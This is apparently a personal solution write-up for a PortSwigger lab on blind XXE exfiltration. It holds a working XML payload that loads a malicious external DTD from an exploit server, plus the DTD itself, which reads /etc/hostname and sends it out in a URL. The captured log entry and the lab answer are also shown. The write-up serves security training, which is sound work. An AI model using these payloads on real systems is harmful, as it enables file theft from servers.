 # Lab: Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
# https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

```bash
# Send stock request to repeater.
```

```bash    
#Update xml part of the request.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0a91001c035d2247852ba89c013c0018.exploit-server.net/exploit">
%loadDtd;
%stack;
%exfil;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
```bash
# Paste this into body at exploit server and store the code
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a91001c035d2247852ba89c013c0018.exploit-server.net/?%file;'>">
```
```bash
# Now send the request from repeater.
# After that check the response from access log.

"GET /?6ff56532030e HTTP/1.1" 200 "User-Agent: Java/21.0.1"
# Submit solution: 6ff56532030e
```
